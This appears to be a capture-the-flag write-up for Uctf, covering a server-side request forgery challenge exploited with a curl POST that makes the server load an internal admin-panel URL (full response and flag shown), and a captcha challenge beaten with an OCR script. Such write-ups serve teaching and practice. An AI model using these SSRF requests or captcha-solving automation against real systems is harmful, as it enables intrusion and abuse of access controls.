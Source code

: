 <h1>Writeup for Uctf</h1>

I played Uctf with the Cyber_jedi team.I solved two challenges.

- E corp
- Captcha | 1
- Captcha | 2
  
### E-CORP

<img src="https://github.com/SENSEIXENUS2/Ctf-writeupsScripts/blob/main/assets/Images/Uctf.jpg" width="450" height="450">
   
   
   In this web challenge,the website allows access to posts made by users.So,I viewed the source code and discovered a vulnerable code snippet in the api endpoint <u>'/api/view.php'</u> code.The main task in the challenge is to load a website that can't be accessed outside i.e if not connected to their network
The vulnerable code snippet is

  
    <script>
        const API_PATH = '/api/view.php';

        async function fetchPost(id) {
            const fetchResult = await fetch(API_PATH, {
                method: 'POST',
                cache: 'no-cache',
                headers: {
                    'Content-type': 'application/json'
                },
                body: JSON.stringify({ post: `file:///posts/${id}` })
            });

The api receives a request containing json data and uses the file:/// wrapper to load post already saved with a user's id
The api endpoint code loads any url submitted to it without any form of restrictions and it makes it susceptible to Server Side Request Forgery which occurs when a website is induced to load a particular url.I gained access to the websit
e by using the vulnerable endpoint to access it via Curl.  
   
    curl https://ecorpblog.uctf.ir/api/view.php -v -X POST --header 'Content-Type:application/json' -d '{"post": "http://admin-panel.local/"}'

    ####RESPONSE#####
    * Using Stream ID: 1
    > POST /api/view.php HTTP/2
    > Host: ecorpblog.uctf.ir
    > User-Agent: curl/8.2.1
    > Accept: */*
    > Content-Type:application/json
    > Content-Length: 37
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * old SSL session ID is stale, removing
    < HTTP/2 200
    < date: Sun, 03 Sep 2023 13:33:41 GMT
    < content-type: application/json
    < content-length: 50
    < vary: Accept-Encoding
    < x-powered-by: PHP/7.2.34
    < x-xss-protection: 1; mode=block
    < server: ArvanCloud
    < x-sid: 4101
    < server-timing: total;dur=98
    < x-request-id: b72a53f22b5cf18d0b1bb14a5cf75106
    < accept-ranges: bytes
    <
    * Connection #1 to host ecorpblog.uctf.ir left intact
    {"status":"success","post":"uctf{4z174_1n_urm14}"}


###  CAPTCHA | 1


<img src='https://github.com/SENSEIXENUS2/Ctf-writeupsScripts/blob/main/assets/Images/Utcf2.jpg' width= "450" height="450">

In this challenge,the main task was to solve 300 captchas to get the flag.

<img src='https://github.com/SENSEIXENUS2/Ctf-writeupsScripts/blob/main/assets/Images/Uctf3.jpg' width="450" height="450">


I noticed that text in the image can be read with the aid of OCR(optical character recognition).I created a script to autosolve it using python(pytessercat module,requests,base64).
### My Approach

- Submitted a request to the url and submitted the first captcha
- Use split() to collect the base64 bytes of the image
- Decrypted it with the base64 module,stored the data in an already created png file
- Used Pytesseract to extract the text
- Used a class function to submit the captcha value



<img src = "https://github.com/SENSEIXENUS2/Ctf-writeupsScripts/blob/main/assets/Images/Uctf4.jpg" width="450" height="450">

This is the link to script <a href="https://github.com/SENSEIXENUS2/Ctf-writeupsScripts/blob/main/UctfWriteups/captcha1.py
">Captcha1's script</a>
